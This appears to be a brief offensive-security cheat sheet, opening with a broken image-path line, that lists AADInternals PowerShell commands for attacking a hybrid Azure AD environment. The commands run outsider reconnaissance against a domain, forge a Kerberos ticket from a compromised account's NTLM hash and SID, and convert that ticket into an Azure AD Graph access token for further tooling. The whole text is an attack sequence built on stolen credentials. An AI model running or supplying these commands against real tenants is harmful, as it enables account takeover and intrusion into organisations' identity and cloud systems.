 # AADInternals

## Github repo: https://github.com/Gerenios/AADInternals

### Commands:

 - Invoke-AADIntReconAsOutsider -Domain domain.local | Format-Table (Reconnaissance. Can be both from inside or outside the network)

 - $kerberos=NewAADIntKerberosTicket -SidString INTERNAL_AD_SID -Hash NTLM_HASH (Grab a Kerberos Ticket for the account mentioned on the INTERNAL_AD_SID, then use the NTLM hash of the compromised account)

 - Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain DOMAIN.LOCAL (Initiate an access token for Azure AD Graph from the Kerberos Ticket. This is necessary so we can pass the token to use with ROADTools or any other tool we may need to use)



